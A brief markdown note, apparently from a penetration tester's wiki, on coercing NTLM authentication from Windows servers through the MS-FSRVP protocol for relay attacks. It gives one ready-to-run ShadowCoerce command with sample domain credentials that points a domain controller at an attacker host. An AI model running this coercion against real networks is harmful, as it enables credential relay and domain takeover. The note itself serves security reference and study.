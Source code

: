 ```yaml
---
title: NTLM Relay from FSRV
---
```


[[notes/ad/ntlm-relay-source]] as domain user from servers trough [[notes/network/msrpc]] *File Server Remote VSS Protocol* ([MS-FSRVP](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/)).
This was patched in June 2022.

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "[ShadowCoerce](https://github.com/shutdownrepo/shadowcoerce)"
    ~~~ bash
    ./shadowcoerce.py -d corp.local -u jdoe -p 'passw0rd' $lhost dc01.corp.local
    ~~~
